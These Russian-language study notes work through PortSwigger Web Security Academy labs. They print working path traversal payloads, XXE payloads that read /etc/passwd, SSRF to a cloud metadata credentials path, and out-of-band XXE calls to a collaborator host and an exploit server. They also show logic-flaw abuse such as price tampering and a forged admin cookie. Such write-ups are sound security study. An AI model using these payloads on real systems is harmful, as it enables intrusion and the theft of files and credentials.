

# Path traversal

### 1. Lab: File path traversal, simple case

На странице home подгружаются изображения по отдельной ручке, куда передается название файла.
Туда вставил вместо 36.jpg

```
../../../etc/passwd
```

### 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass
Тут так же, как в прошлой, только вставить можно всего лишь
```
/etc/passwd
```

### 3. Lab: File path traversal, traversal sequences stripped non-recursively

Тут так же, как в предыдущих, но, в связи с чисткой надо дублировать символы

```
....//....//....//etc/passwd
```

### 4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
Начало такое же, как и в прошлых.

Затем надо url енкоднуть дважды (сначала / , затем %)
```
..%2f..%2f..%2fetc/passwd
```


```
..%252f..%252f..%252fetc/passwd
```

### 5. Lab: File path traversal, validation of start of path

Начало как и в предыдущих

Тут так же просто заменяем название картинки на path traversal

```
/var/www/images/../../../etc/passwd
```

### 6. Lab: File path traversal, validation of file extension with null byte bypass

Тут так же как в прошлых начало, но тут проверятся тип файла. Потому, если вставить null terminator (%00), то и фильтр пройдем и файл passwd получим.

```
../../../etc/passwd%00.jpg
```

# XML external entity (XXE) injection

### 1. Lab: Exploiting XXE using external entities to retrieve files

По кнопке check stock вызывается пост запрос, оформленный как xml

Заметил, что если xml на находится через одну строку после запроса, то он не парсится. Вставил запрос поддельный и получил свое


```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### 2. Lab: Exploiting XXE to perform SSRF attacks

Тут начало такое же, как и в прошлой. Но на этот раз надо ssrf сделать. Начинаем с запроса

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
    <storeId>1</storeId>
    </stockCheck>
```
Далее нам возвращает одно за другим названия следующих папок, пока мы не дойдем до
```
/latest/meta-data/iam/security-credentials/admin
```

### 3. Lab: Blind XXE with out-of-band interaction

Начало такое же, как и раньше, только сейчас отбиваюсь на xxx.oastify.com

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://xxx.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### 4. Lab: Blind XXE with out-of-band interaction via XML parameter entities

Тут все так же как в прошлой, но запрос с параметрической сущностью
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://xxx.oastify.com"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

### 5. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
Нужна эксфильтрация через коллаборатор

### 6. Lab: Exploiting blind XXE to retrieve data via error messages

Начало такое же.

Затем делаем эксплоит

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> # % file - параметрическая сущность, читающая /etc/passwd
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> # - подставляет значение file в читающий путь, от того ошибка и вылезает
%eval;
%exfil;
```
Этот эксплоит мы кладем на сервер и вызываем его такой xml

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a05009503e6720981252eae01f90038.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

### 7. Lab: Exploiting XInclude to retrieve files

Начало такое же как в предыдущих, только тут запросы передаются в plaintext, а затем вставляются в xml на сервере.

Потому вставив

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

где xmlns:xi="http://www.w3.org/2001/XInclude" - оч важная для xml штука, без которой он не будет видеть XInclude, только пользовательский тэг

### 8. Lab: Exploiting XXE via image file upload

Тут уже уяза в посте комментов - а именно в фотографиях, которые можно загружать как svg. Потому я создал svg файл:

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" 
xmlns="http://www.w3.org/2000/svg" 
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
И вместо аватарки у мея был hostname

### 9. Lab: Exploiting XXE to retrieve data by repurposing a local DTD

Начало тут как и во всех других (check stock)

Вместо того чтобы объявлять новые сущности, мы переопределяем уже существующие параметрические сущности в DTD-файлах, которые есть на сервере.

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Сначала загрузка локального DTD, затем переопределение сущности ISOamso, которая уже существует в docbookx.dtd, затем команда примерно такая же, как была в шестом задании.

# Business logic vulnerabilities

### 1. Lab: Excessive trust in client-side controls

При нажатии "Add to cart" отправляется пост запрос, где один из параметров - цена. Ее можно поменять и купить что угодно за сколько угодно.

### 2. Lab: High-level logic vulnerability

Тут можно добавить отрицательное количество предметов в корзину через тот же post запрос "Add to cart". Они будут уменьшать цену.

### 3. Lab: Inconsistent security controls

Админская панель проверяет на email, оканчивающийся на dontwannacry.com. При создании аккаунта просят подтверждение с почты, а при смене почты - не просят.

### 4. Lab: Flawed enforcement of business rules

Мы можем получить два промика - NEWCUST5 и SIGNUP30. Попеременно их применяя, получим большую скидку.

### 5. Lab: Low-level logic flaw

Можно одним пост запросом в корзину получать максимум 99 айтемов в корзину. Цель - переполнить int цены. Получилось у меня на количестве 16352, когда цена стала -$21087048.96

Далее докидываем айтемов, чтобы цена была не отрицательной. Курток закинул 32123 штуки, получилась цена	-$1221.96

Добавил еще 20 валли и цена вышла в 68. Во всем мне помогал скрипт `blogic_4.py`

### 6. Lab: Inconsistent handling of exceptional input

При регистрации можно ввести имейл любой длины, туда же отошлется имейл на подтверждение. В подсказке говорится, что наш имейл клиент может принять имейл с любого
поддомена -> введем первыми поддоменами @dontwannacry.com, причем чтобы m - было 255 символом, которые в системе так обрезаются. Так и получили. Сам имейл лежит в `longemail`

### 7. Lab: Weak isolation on dual-use endpoint

В пост запросе на изменение пароля можно просто удалить парамет current password, и пароль поменяется. Так же можно поменять юзернейм, и сменить пароль админа.

### 8. Lab: Insufficient workflow validation

Сама покупка идет не от post запроса на покупку, а от редиректа после него - он либо ок, либо не ок.

Ок запрос можно увести, купив что-то дешевое. И при отправке ок запроса все в корззине будет куплено автоматически, даже баланс не спишется. Потому добавим че хотим
в корзину и запустим запрос и гг

### 9. Lab: Authentication bypass via flawed state machine

Тут при логине делается гет запрос на role-selector. Если его нет, то дается страница выбора роли, которая потом отсылвается пост запросом.

Но если дропнуть гет запрос на role-selector, то выставится значение по умолчанию - админ )

### 10. Lab: Infinite money logic flaw

Можно бесконечно покупать подарочные карты по промокоду, потом самому их на себя активировать, получая плюс баланс. Изи деньги.

Написал скрипт и он долго работал.
infinite_money_lab)10.py

### 11. Lab: Authentication bypass via encryption oracle

Тут был такой алгоритм:

email который вводится при посте комментария - кодируется так же, как куки stay logged in.

Он так же раскодируется в следующем запросе, который редиректит.

Можем так раскодировать stay logged in куку и увидеть, что она формата username:timestamp

Теперь вместо имейла попробуем ввести administrator:timestamp и раскодировать

Видим, что автоматически добавляется строка `Invalid email address: `

В кибершефе сделаем последовательность url decode -> from base64 -> drop bytes 23 -> to base 64

Получим новую потенциальную куку. Но вставив ее, увидим, что длительность при раскоде должна делиться на 16. Потому попробуем добавить 16 "A" в начало, а обрезать уже
надо будет 48 байтов (это я чисто на практике узнал)

Так и получил куку

```
AAAAAAAAAAAAAAAAadministrator:1764950395135
```




# Information disclosure

### 1. Lab: Information disclosure in error messages

Если ввести в productId вместо числа строку, то приложение крашнется и выведет ошибку, вместе с версией

### 2. Lab: Information disclosure on debug page

В изначальном коде страницы можно найти дебаг строчку

```
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```
А по этому адресу уже куча всего, в том числе токен

### 3. Lab: Source code disclosure via backup files

В robots.txt лежит ручка /backup, в ней файл ProductTemplate.java.bak и там валяется пароль от постгры

### 4. Lab: Authentication bypass via information disclosure

Если протрейсить запрос на /admin, то можно увидеть хедер X-Custom-IP-Authorization.

Потомделаем match and replace со своего адреса на 127.0.0.1 и ура
